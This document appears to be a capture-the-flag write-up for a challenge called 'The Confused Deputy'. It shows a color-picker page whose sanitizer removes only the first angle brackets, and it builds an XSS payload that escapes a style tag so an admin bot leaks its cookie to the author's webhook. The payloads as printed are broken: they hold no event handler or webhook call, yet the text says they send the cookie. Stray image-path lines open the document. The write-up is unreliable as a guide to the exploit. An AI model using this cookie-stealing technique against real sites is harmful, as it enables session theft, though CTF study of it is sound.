




# The Confused Deputy

## Problem

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

http://chall.csivit.com:30256
```

## Solution

We are taken to the `/view` endpoint, which is a page that takes in input and displays a corresponding colour.



The challenge description also tells us to access another endpoint `/admin`. This brings us to a page where the "admin"
will visit a page URL that we give him, and also a `color` input for the admin to submit.



Immediately I thought of using reflected XSS to steal admin's cookie just like in redpwnCTF's `static-pastebin`. However
the sanitisation here would obviously be different, so we should examine the sanitisation function more in-depth via the
[source code](files/confuseddeputy/sourcecode.txt) of `/view`.

```javascript
<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>
```

The `sanitized()` function uses the `replace()` function to prevent XSS by removing angle brackets `<` or `>`. However
it's usage is flawed/improper. As per this [page](https://www.w3schools.com/jsref/jsref_replace.asp), `replace()` only
replaces the ***first instance*** of the value, meaning we can trivially bypass this sanitisation by adding a 'dummy' pair of angle brackets
`<>` to the front of our payload - our payload will be left intact.

Current `color` payload:
```
<></img>
```


At this point, the payload still doesn't send anything to my webhook. Why is that so? After the payload is processed in 
`sanitized()`, it is wrapped up between `<style>` tags due to `dostuff()`.


(cr: thebongy)

As you can see above, the current payload bypasses the `sanitized()` but is stuck within the `<style>` tags.

For our XSS payload to execute, we need to break out of the `<style>` tags. This is simply done by adding `</style>` to 
the front and `<style>` to the back of our existing payload.

Final `color` payload:
```
<></style></img><style>
```

At `/admin`, we submit our payload in the `color` field to admin, with the `URL` field as `http://chall.csivit.com:30256/view`,
and our webhook site should retrieve the cookie that contains the flag.



**Flag**: `csictf{cssxss}`

&nbsp;

#### References:
* https://www.w3schools.com/jsref/jsref_replace.asp
